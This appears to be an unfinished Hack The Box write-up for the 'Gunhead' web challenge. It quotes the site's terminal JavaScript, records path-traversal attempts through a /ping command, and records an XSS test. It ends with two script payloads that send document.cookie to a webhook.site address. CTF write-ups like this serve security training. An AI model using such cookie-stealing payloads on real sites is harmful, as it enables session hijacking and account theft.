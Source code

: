 # Gunhead

## FLAG: HTB{}

## Status: Incomplete

+ DOCKER: Yes
+ DOWNLOADABLE: Yes

Description: During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

## NOTES

1. Deploy Docker
   1. > IP: 159.65.81.51:31241
2. Extract file
   1. > unzip web_gunhead.zip
      1. FILE(S): challenge(dir), config(dir), dockerfile, build-docker.sh, flag.txt
3. Navigate to website
   1. On here we see a robot / AI looking machine that has a couple features
      1. Status -> this displays the status of the robot
      2. Needs -> this displays the needs (ie. Current Power, Health, Weapon systems, etc.)
      3. Command -> this is a terminal style input that allows us to type in a handful of commands
         1. > /help -> displays all commands
         2. > /clear -> clears the command prompt
         3. > /ping -> ping [device-IP], check recon system
         4. > /storage -> check storage
4. Investigate the code
   1. If we go to the /challenge/static/js/script.js file we will see the code behind the terminal structure

        ```js
            term.processCommand = function (com) {
            regex = /\/ping [A-Za-z0-9_.]*/gm;

            switch (com.toLowerCase()) {
                case '/clear':
                {
                    term.clear();
                    break;
                }
                case '/help':
                {
                    term.print();
                    term.printG('Current Command List:');
                    term.printG('/clear  // Clears the command prompt. Cannot be undone.');
                    term.printG('/ping [device IP] // Check recon system')
                    term.printG('/storage // check storage')
                    break;
                }
                case String(com.toLowerCase().match(/\/ping .*/)):
                {
                    host = com.toLowerCase().replace('/ping', '');
                    term.print(`[+] Starting scan on ${host}`);

                    fetch('/api/ping', {
                    method: 'POST',
                    headers: {
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify({
                        'ip': host
                    })
                    })
                    .then(res => res.json())
                    .then(data => {
                        data = data.output.replaceAll(/\n/g, '<br>');

                        term.print('');
                        term.printG(data);
                    });
                    break;
                }
                case '/storage':
                {
                    term.print();
                    term.printG('Filesystem: /dev/sda1');
                    term.printG('Total Space: 20TB');
                    term.printG('Used Space: 14TB');
                    term.printG('Available Space: 6TB');
                    term.printG('Use Percentage: 70%');
                    term.printG('Mounted On: /');
                    term.print();
                    break;
                }
                default:
                {
                    term.print();
                    term.printG('Unable to understand the command!');
                    break;
                }
            }
            if (com) { term.print('> ' + com); } // echo
        ```

   2. In here we see a switch statement that breaks the commands down into cases (ie. /clear. /help, /ping, /storage)
   3. Running through all the commands I tried
      1. > /ping 'http://159.65.81.51:31241/'
      2. > /ping 'http://159.65.81.51:31241/flag.txt'
      3. > /ping 'http://159.65.81.51:31241/../flag.txt'
      4. > /ping 'http://159.65.81.51:31241/../../flag.txt'
      5. No results
         1. So maybe we can user XSS
5. XSS
   1. Lets test using a basic `<script>alert(1)</script>`
      1. SUCCESS!!
   2. Okay so now lets see if we can use JS to read a file
      1. ATTEMPTS.html
   3. Lets try a different route
      1. Rather than trying to leak the flag with XSS lets try and grab the cookie



<script>
fetch('https://webhook.site/685c4977-50d5-430b-bcbd-bca194fbebab?c=' + document.cookie)
</script>

<script>document.location='https://webhook.site/685c4977-50d5-430b-bcbd-bca194fbebab?cookie='+document.cookie</script>